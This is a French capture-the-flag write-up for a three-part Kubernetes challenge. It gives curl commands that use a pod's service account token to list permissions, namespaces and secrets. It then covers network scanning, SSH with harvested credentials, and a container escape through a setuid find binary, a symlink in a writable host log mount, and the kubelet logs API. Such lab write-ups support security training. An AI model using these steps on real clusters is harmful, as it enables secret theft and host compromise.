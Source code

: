 # Les nuages menaçants

## 1ère partie

### Intitulé

Vous prenez une pause bien méritée et vous vous asseyez à une table. Vous regardez les nuages quand un homme s'approche de vous :

« Vous aussi les nuages vous passionnent ? Je vous proposerai bien une madeleine, mais c'est ma dernière... Mais j'oublie l'essentiel : je suis Marcel Proust. »

Il prend quelques minutes pour contempler les nuages, puis il reprend :

« Les nuages m'ont toujours passionné... J'ai entendu parler d'un nouveau type de nuage récemment, pouvez-vous me donner ses secrets ? »

Connectez-vous au nuage avec le mot de passe suivant : 4GqWrNkNuN

Le challenge peut prendre quelques minutes à se lancer.

### Solution

On récupère d'abord le token k8s et les certificats et l'apiserver :

```sh
export TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
export CACERT=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
export APISERVER=${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT_HTTPS}
```

On récupère les permissions associées :
```sh
curl --cacert $CACERT --header "Authorization: Bearer $TOKEN" -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' \
    --data-binary $'{\"kind\":\"SelfSubjectRulesReview\",\"apiVersion\":\"authorization.k8s.io/v1\",\"metadata\":{\"creationTimestamp\":null},\"spec\":{\"namespace\":\"default\"},\"status\":{\"resourceRules\":null,\"nonResourceRules\":null,\"incomplete\":false}}\x0a' \
    "https://$APISERVER/apis/authorization.k8s.io/v1/selfsubjectrulesreviews"
```

On énumère les namespaces :
```sh
curl --cacert $CACERT --header "Authorization: Bearer $TOKEN" https://$APISERVER/api/v1/namespaces
```

Puis on récupère les secrets du namespace `404ctf` où se trouve le flag. On remarque aussi des identifiants que l'on note.
```sh
curl --cacert $CACERT --header "Authorization: Bearer $TOKEN" https://$APISERVER/api/v1/namespaces/404ctf/secrets
```

## 2ème partie

### Intitulé

Après avoir trouvé les secrets du nuage, vous les racontez à Proust. Celui-ci vous demande alors d'aller explorer le nuage plus en profondeur.

Connectez-vous au nuage avec le mot de passe suivant : 4GqWrNkNuN

Le challenge peut prendre quelques minutes à se lancer.

Le flag est dans /flag.txt.

### Solution

On remarque que nmap est installé. On récupère le réseau du cluster avec `ip a` puis on scanne le réseau avec `nmap qui est installé`

On remarque qu'il y a un service ssh, on se connecte dessus avec les identifiants récupérés puis on récupère le flag.

## 3ème partie

### Intitulé

Après avoir exploré tous les recoins du nuage, Proust s'exclame :

« Pouvez-vous en prendre le contrôle ? J'ai toujours voulu pouvoir diriger les nuages !

Connectez-vous au nuage avec le mot de passe suivant : 4GqWrNkNuN

Le challenge peut prendre quelques minutes à se lancer.

Le flag est dans /flag.txt sur l'hôte directement.

### Solution

Ici le but est de s'échapper du conteneur sur l'hôte.

On récupère à nouveau le token, les cacerts. On remarque le token à les droits sur log et node/log.

En fouillant, on remarque un dossier suspect `/var/host/log`. Il s'agit du dossier `/var/log` de l'hôte qui est monté en lecture/écriture sur le conteneur. Cela va être notre point d'attaque.

D'abord, on passe root. On remarque que `find` est en `setuid` ce qui nous permet de passer root (cf gtfobins).

A partir de là, on crée un lien symbolique :
```sh
ln -s / /var/host/log/sym
```

Cela va nous permettre, en exploitant l'api de kubelet, de lire n'importe quel fichier sur l'hôte et notamment le flag :
```sh
curl -k --header "Authorization: Bearer $TOKEN" https://10.42.x.1:10250/logs/sym/flag.txt
```

### Bonus

On peut récupérer un kubeconfig admin qui est à `/etc/rancher/k3s/k3s.yaml` qui nous permet de faire ce que l'on veut et notamment de déployer un pod privilégié pour ensuite s'en échapper et obtenir un shell root sur l'hôte.